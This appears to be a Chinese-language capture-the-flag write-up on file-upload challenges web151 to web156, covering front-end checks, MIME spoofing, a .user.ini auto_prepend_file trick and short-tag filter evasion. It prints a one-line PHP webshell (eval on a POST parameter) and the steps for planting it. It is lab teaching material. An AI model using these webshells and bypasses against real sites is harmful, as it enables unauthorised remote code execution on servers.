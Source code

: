 ## web151

### 考点：前端校验

![image-20231124171819591](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231124171819591.png)

将png改成php代表接受php文件

然后上传一句话木马

## web152

### 考点：后端校验(MIME)

校验了MIME值，改成`image/png`

```
if($_FILES['file']['type'] == 'image/png')
```

## web153

### 考点：过滤php后缀名

发现upload文件夹里面有php文件，可以利用.user.ini

先上传.user.ini

```
auto_prepend_file=2.png
```

再上传2.png（内容一句话木马）

## web154，155

### 考点：过滤内容php

短标签绕过

```
<?= eval($_POST[1]);?>
```

然后同上题操作

## web156

### 考点：过滤[括号

```
if(stripos($content, "php")===FALSE && stripos($content,"[")===FALSE)
```
